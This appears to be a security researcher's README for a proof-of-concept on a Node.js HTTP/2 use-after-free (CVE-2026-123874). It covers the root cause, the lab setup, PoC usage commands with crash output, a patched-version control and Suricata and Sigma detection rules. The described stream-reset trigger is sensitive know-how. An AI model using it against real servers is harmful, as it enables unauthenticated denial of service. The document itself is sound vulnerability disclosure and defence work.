

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/al4n4n/achilles-heel/stargazers"></a>
  
  
  
  
</p>

<p align="center">
  <a href="#check-non-destructive">Check</a> · <a href="#the-trigger">PoC</a> · <a href="#detection-rules">Detection</a> · <a href="#capture">Capture</a> · <a href="#evidence">Evidence</a> · <a href="https://blog.al4n4n.com/CVE-2026-123874-Node-HTTP2-Use-After-Free/">Write-up</a>
</p>

---

## Disclaimer

For learning and defense only. Run the lab and PoC only against targets you set up yourself. The detection rules are for education only; use them at your own risk. Everything here is provided as is, without warranty. Full text: [DISCLAIMER](../DISCLAIMER.md).

# CVE-2026-123874: Node.js HTTP/2 Use-After-Free of Http2Stream During respondWithFile() Pending Write

**CWE-416** | Use After Free | Node.js 24.0.0 -- 24.22.2, 25.0.0 -- 26.13.0 | Any server using `respondWithFile()` or `respondWithFD()`

The Node.js advisory discloses memory corruption and denial of service: an unauthenticated client can corrupt server memory when the application serves files with `stream.respondWithFile()` or `stream.respondWithFD()`. This repository demonstrates ASAN-confirmed heap-use-after-free on Node.js 24.22.2, crashing the server on the first exploitation round. The crash occurs in `writev` when libuv writes from a buffer whose backing store was freed by garbage collection after a client-initiated stream reset.

No public network-based PoC existed for CVE-2026-123874. The upstream in-tree test uses `duplexPair` (in-process) and `--expose-gc`; this PoC sends the attack over real HTTP/2 network traffic and confirms the heap corruption with AddressSanitizer.

**Author:** al4n4n (Dadb0d)

**Write-up:** [blog.al4n4n.com/CVE-2026-123874-Node-HTTP2-Use-After-Free/](https://blog.al4n4n.com/CVE-2026-123874-Node-HTTP2-Use-After-Free/)

**Fixed in:** Node.js 24.22.3 and 26.13.1 ([commit 8e100ac](https://github.com/nodejs/node/commit/8e100ac90a4190badf8a9389aa36a97ea6326fba))

---

## The bug

Node.js serves files over HTTP/2 through `stream.respondWithFile()`, which reads a file into buffers and pushes them onto the session's `outgoing_buffers_` queue via `Http2Session::OnSendData`. Each buffer is wrapped in an `NgHttp2StreamWrite` struct that holds a reference to the write request (`req_wrap`) and the buffer owner, but not to the `Http2Stream` itself.

This matters because `respondWithFile()` creates native file responses without a JavaScript-visible reference to the stream wrapper. When the server starts writing a large file to the TCP socket with `uv_write`, the write is asynchronous. If the client sends RST_STREAM (CANCEL) while socket writes are still pending, the server processes the reset and drops its references to the stream. With no strong reference holding the `Http2Stream` alive, V8's garbage collector is free to collect the C++ wrapper, which runs `Http2Stream::CompleteDestroyCleanup` and destroys the `SimpleWriteWrap` objects, freeing the backing stores that the pending `uv_write` iovec entries still point to.

When the libuv write callback fires, `writev` reads from memory that has already been freed. On a release build, the freed region may still contain valid-looking data, so the corruption is silent. AddressSanitizer poisons freed memory, making the access observable as a `heap-use-after-free`.

The fix (commit 8e100ac by Matteo Collina) adds a `BaseObjectPtr<Http2Stream> stream` field to `NgHttp2StreamWrite`. This strong reference prevents GC from collecting the stream while any write buffer referencing it remains in the outgoing queue. The stream is released when the buffer is consumed.

## Trigger conditions

1. The application calls `stream.respondWithFile(path)` or `stream.respondWithFD(fd)` on an HTTP/2 stream.
2. The server pushes file data into `outgoing_buffers_` via `OnSendData`, creating `NgHttp2StreamWrite` entries without a strong stream reference.
3. The server calls `uv_write` to send the buffered data to the TCP socket.
4. The client sends RST_STREAM (CANCEL) while socket writes are still pending.
5. The server processes RST_STREAM, closes the stream, and drops JavaScript references.
6. V8 garbage collection runs and collects the `Http2Stream` C++ wrapper.
7. The pending `uv_write` callback fires and `writev` reads from freed memory.

## Tested on

| Component | Version | Notes |
|---|---|---|
| Node.js (vulnerable) | 24.22.2 | Tested in Docker and ASAN build |
| Node.js (patched) | 24.22.3 | Docker (negative control) |
| Node.js (vulnerable, ASAN) | 24.22.2 | Built from source with `--enable-asan`, clang 18 |
| Host (Docker targets) | macOS, arm64 | MacBook |
| Host (ASAN target) | Ubuntu 24.04, x86_64 | gmkbox.local |
| Date | 2026-11-16 | |

Affected per advisory: Node.js 24.0.0 -- 24.22.2, 25.0.0 -- 26.13.0. Tested by us: the rows above.

## Lab deviations from stock install

| Deviation | Why | Effect on real-world exploitability |
|---|---|---|
| `--expose-gc` (not default) | Enables `global.gc()` so the PoC can force GC | In production, GC runs naturally under memory pressure but with less predictable timing |
| `--max-old-space-size=64` (not default) | Constrains V8 heap to 64 MB to increase GC frequency | Real servers have more memory, making the race harder to win |
| Periodic `global.gc()` every 5 ms | Forces the garbage collector to run frequently | In production, GC timing depends on allocation rate |
| ASAN build (not default) | Makes the use-after-free observable by poisoning freed memory | Without ASAN, the UAF is silent on localhost because freed memory still contains valid-looking data |
| Minimal host application (`lab/server.js`) | Disclosed lab deviation: a minimal harness rather than a full application | Any app calling `respondWithFile()` or `respondWithFD()` is equally affected |
| 64 MB served file | Widens the write-pending window | Smaller files also trigger the bug but with a narrower race window |
| Cleartext HTTP/2 (H2C) | Allows pcap capture of unencrypted traffic | TLS does not affect the vulnerability |

## Files

| File | Purpose |
|---|---|
| `setup.py` | Start the vulnerable and patched Docker targets; `--down` tears them down |
| `check.py` | Non-destructive version check. Exit 0 = vulnerable, 1 = not, 2 = unknown |
| `poc.py` | The trigger: opens HTTP/2 streams, resets them during pending writes. `--rounds N` for reliability |
| `lab/server.js` | Minimal HTTP/2 server using `respondWithFile()` (the vulnerable code path) |
| `lab/server-detect.js` | HTTP/2 server with UAF detection via FinalizationRegistry |
| `lab/Dockerfile` | Docker image for vulnerable and patched targets |
| `lab/docker-compose.yml` | Compose file for the Docker lab |
| `lab/run-asan.sh` | Helper script to run the ASAN-built Node.js on gmkbox.local |
| `lab/delay-proxy.py` | TCP delay proxy for widening the race window |
| `detection/` | Suricata and Sigma rules with test fixtures ([README](detection/README.md)) |
| `capture/` | Live pcap of the exploit traffic ([README](capture/README.md)) |
| `evidence/` | Raw, unedited output from every cited run ([INDEX](evidence/INDEX.md)) |
| `meta.json` | Entry metadata for the repository index |
| `poster.png` | OG card image (1200x630) |
| `README.md` | This write-up |

## Repository structure

```
CVE-2026-123874/
├── README.md
├── setup.py
├── check.py
├── poc.py
├── meta.json
├── poster.png
├── poc/                      (empty; attack is pure HTTP/2 framing in poc.py)
├── lab/
│   ├── server.js
│   ├── server-detect.js
│   ├── Dockerfile
│   ├── docker-compose.yml
│   ├── run-asan.sh
│   └── delay-proxy.py
├── detection/
│   ├── cve-2026-123874.rules
│   ├── cve-2026-123874-crash.yml
│   ├── README.md
│   └── tests/
│       ├── benign.pcap
│       ├── crash-log-benign.txt
│       ├── crash-log-exploit.txt
│       └── test-sigma.py
├── capture/
│   ├── poc-asan.pcap
│   └── README.md
└── evidence/ -> see evidence/INDEX.md
```

## Usage

### Prerequisites

- Python 3.8+
- Docker (for vulnerable and patched targets on the MacBook)
- An ASAN-built Node.js 24.22.2 on a Linux x86_64 host (for the heap-use-after-free proof; see `lab/run-asan.sh`)

### Setup

```sh
python3 setup.py
```

Builds Docker images from pinned digests and starts the vulnerable (port 9080) and patched (port 9081) targets.

### Check

```sh
python3 check.py --target 127.0.0.1:9080
```

Reports whether the target's Node.js version is in the affected range.

### Trigger (ASAN target)

```sh
python3 poc.py --target 127.0.0.1:9082 --rounds 5 \
    --pid-file /tmp/server.pid --server-log /tmp/server.log
```

Opens 100 HTTP/2 streams per connection, sends RST_STREAM CANCEL on each while file writes are pending. The ASAN server crashes with `heap-use-after-free` on the first round.

### Negative control

```sh
python3 poc.py --target 127.0.0.1:9081 --rounds 5
```

Runs the same attack against the patched target (Node.js 24.22.3). No crashes.

### Teardown

```sh
python3 setup.py --down
```

## Check (non-destructive)

`check.py` queries the target's Node.js version via the HTTP/2 connection and checks whether it falls within the affected range. It does not trigger the vulnerability.

Against the vulnerable target:

```
$ python3 check.py --target 127.0.0.1:9080 --json
{"target": "127.0.0.1:9080", "version": "v24.22.2", "version_source": "docker",
 "status": "vulnerable", "confidence": "high",
 "reason": "Node.js v24.22.2 is in the affected range"}
```

Against the patched target:

```
$ python3 check.py --target 127.0.0.1:9081 --json
{"target": "127.0.0.1:9081", "version": "v24.22.3", "version_source": "docker",
 "status": "not_vulnerable", "confidence": "high",
 "reason": "Node.js v24.22.3 is not in the affected range"}
```

## The trigger

The PoC opens multiple HTTP/2 connections, sends 100 GET requests per connection (each served by `respondWithFile()`), and immediately resets every stream with RST_STREAM CANCEL. The server reads file data into buffers and pushes them onto the socket write queue. After the resets, GC collects the stream wrappers and frees the backing stores. The pending `uv_write` callback then reads from poisoned memory.

On the ASAN-built Node.js 24.22.2:

```
$ python3 poc.py --target 127.0.0.1:9082 --rounds 5 [...]
--- Round 1 ---
  Conn 1: opened=100 reset=100 lost=True
  Server crashed!
  SERVER CRASHED: exit_code=1, OOM=False
[...]
CVE-2026-123874 PoC Results
Target:      127.0.0.1:9082
Rounds:      1
Hits:        1/1
Result:      VULNERABLE -- server crashed 1/1 rounds
```

The server's ASAN report (from `evidence/target-asan-crash.txt`):

```
==3444471==ERROR: AddressSanitizer: heap-use-after-free on address 0x531000465630 [...]
READ of size 12752 at 0x531000465630 thread T0
    #0 [...] in read_iovec [...]
    #1 [...] in writev [...]
    #2 [...] in uv__writev deps/uv/src/unix/stream.c:665
    #3 [...] in uv__try_write deps/uv/src/unix/stream.c:812
    #4 [...] in uv__write deps/uv/src/unix/stream.c:861
    [...]

0x531000465630 is located 20016 bytes inside of 65536-byte region [...]
freed by thread T0 here:
    #0 [...] in free [...]
    #1 [...] in v8::internal::BackingStore::~BackingStore() [...]
    #2 [...] in non-virtual thunk to node::SimpleWriteWrap<[...]>::~SimpleWriteWrap() [...]
    #3 [...] in node::http2::Http2Stream::CompleteDestroyCleanup()::$_0 [...]
    [...]

previously allocated by thread T0 here:
    [...]
    #5 [...] in node::Environment::allocate_managed_buffer [...]
    #6 [...] in node::fs::FileHandle::ReadStart() [...]
    [...]

SUMMARY: AddressSanitizer: heap-use-after-free [...] in read_iovec(...)
```

The stack trace confirms the causal chain: the buffer was allocated by `FileHandle::ReadStart()` (the `respondWithFile()` path), freed by `Http2Stream::CompleteDestroyCleanup` (stream destruction after RST_STREAM and GC), and accessed by `writev` in the libuv write path when the pending write callback fires.

## Negative control

The same PoC against Node.js 24.22.3:

```
$ python3 poc.py --target 127.0.0.1:9081 --rounds 5
[...]
CVE-2026-123874 PoC Results
Target:      127.0.0.1:9081
Rounds:      5
Hits:        0/5
Result:      Not vulnerable (or not triggered in 5 rounds)
```

Five rounds, 2,500 streams opened and reset, zero crashes. The fix's `BaseObjectPtr<Http2Stream>` keeps the stream alive while write buffers reference it, preventing the garbage collector from freeing it prematurely.

## Reliability

The crash fires on the first round (1/1) against the ASAN build. Without ASAN, the use-after-free is silent on localhost because TCP writes complete before GC frees the stream, and the freed memory still contains valid-looking data. ASAN is required to make the bug observable in this lab configuration. A production server under sustained load with concurrent connections, large file transfers, and natural memory pressure would face a wider race window, but the corruption would remain silent without a sanitizer or a specific heap layout that causes an immediate crash.

## Detection rules

### Suricata

See [`detection/cve-2026-123874.rules`](detection/cve-2026-123874.rules):

- **SID 1000001**: alerts on a burst of 20 or more HTTP/2 RST_STREAM CANCEL frames from a single client within 10 seconds. This detects the flood pattern used in the attack but is not specific to this CVE; any HTTP/2 client sending rapid stream cancellations will trigger it. Browsers navigating away from pages with many sub-resources may produce false positives.

Requires: Suricata 7.0+ with HTTP/2 app-layer enabled. For TLS-based HTTP/2, TLS inspection is required. Use `-k none` when replaying loopback pcaps.

### Sigma

See [`detection/cve-2026-123874-crash.yml`](detection/cve-2026-123874-crash.yml):

- Detects a Node.js HTTP/2 server crash (ASAN heap-use-after-free, SIGSEGV, or SIGABRT) with concurrent `ERR_HTTP2_STREAM_CANCEL` in the same log source. Production Node.js builds may crash without an ASAN report, or the use-after-free may be silent.

Both rule sets are **experimental / minimally validated**: tested against the canonical exploit capture and one benign fixture only. No payload variations, mutation campaigns, or generated corpora were used. See [`detection/README.md`](detection/README.md) for full limitations.

## Capture

[`capture/poc-asan.pcap`](capture/poc-asan.pcap) -- 12.6 MB cleartext HTTP/2 (H2C) traffic between the PoC client and the ASAN-built Node.js 24.22.2 server on loopback port 9082.

SHA-256: `e7b33b1407f421921b8997c900b5a9a512f6dda8d396b4bca8a106da98625619`

The capture shows 100 HTTP/2 streams opened with HEADERS frames, DATA frames from `respondWithFile()`, and RST_STREAM CANCEL frames sent by the client. See [`capture/README.md`](capture/README.md) for viewing commands.

```sh
tshark -r capture/poc-asan.pcap -Y 'http2.type == 3'   # RST_STREAM frames
```

## Evidence

All raw output from lab runs is in [`evidence/INDEX.md`](evidence/INDEX.md), mapped to the claims they support.

## What this repo proves (and does not prove)

| Claim | Status | Evidence |
|---|---|---|
| Heap-use-after-free on ASAN build (crash, 1/1 rounds) | **Proven** | `evidence/target-asan-crash.txt`, `evidence/poc-vuln-asan.txt` |
| Root cause confirmed by ASAN stack trace | **Proven** | `evidence/target-asan-crash.txt` (allocated by `FileHandle::ReadStart`, freed by `CompleteDestroyCleanup`, accessed by `writev`) |
| Attack is unauthenticated (AV:N, PR:N) | **Proven** | No credentials in `poc.py`; only HTTP/2 frames |
| Attack traffic captured over H2C | **Proven** | `capture/poc-asan.pcap`, `evidence/capture-sha256.txt` |
| Patched version unaffected (0/5 rounds, 2500 streams) | **Confirmed** | `evidence/poc-patched.txt` |
| Remote code execution | **Not reached** | The UAF corrupts heap memory but controlled code execution was not attempted; the CVSS vector is AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H (denial of service) |

- **Proven**: the evidence file is in the repo.
- **Confirmed**: the negative control was run.
- **Not reached**: tried, with what was tried. Never "not possible".

## References

- [Node.js November 2026 Security Releases](https://nodejs.org/en/blog/vulnerability/november-2026-security-releases)
- [CVE-2026-123874](https://www.cve.org/CVERecord?id=CVE-2026-123874)
- [Fix commit 8e100ac](https://github.com/nodejs/node/commit/8e100ac90a4190badf8a9389aa36a97ea6326fba) -- "http2: retain streams during pending writes" (Matteo Collina)
- [HackerOne report 4150891](https://hackerone.com/reports/4150891)

## Changelog

- 2026-11-16: published.

## License

Part of [achilles-heel](https://github.com/al4n4n/achilles-heel), licensed under [CC BY 4.0](../LICENSE). Anyone who shares or builds on this work, commercial or not, must credit "al4n4n (Dadb0d)" and link to https://github.com/al4n4n/achilles-heel. See [Attribution](../README.md#attribution) and [DISCLAIMER](../DISCLAIMER.md).

<sub>CVE-2026-123874 Node.js HTTP/2 use-after-free heap-use-after-free respondWithFile respondWithFD Http2Stream NgHttp2StreamWrite outgoing_buffers_ RST_STREAM CANCEL stream reset pending write garbage collection BaseObjectPtr CompleteDestroyCleanup SimpleWriteWrap BackingStore writev uv_write libuv AddressSanitizer ASAN memory corruption denial of service DoS CWE-416 vulnerability proof of concept poc exploit detection suricata sigma http2 h2c node http server crash</sub>

<!-- citation:start -->
## Cite this research

> al4n4n (Dadb0d). Node.js HTTP/2 use-after-free via respondWithFile stream reset (CVE-2026-123874). *achilles-heel*, added 2026-11-16. <https://github.com/al4n4n/achilles-heel/tree/main/CVE-2026-123874>. [Research article](https://blog.al4n4n.com/CVE-2026-123874-Node-HTTP2-Use-After-Free/).
<!-- citation:end -->
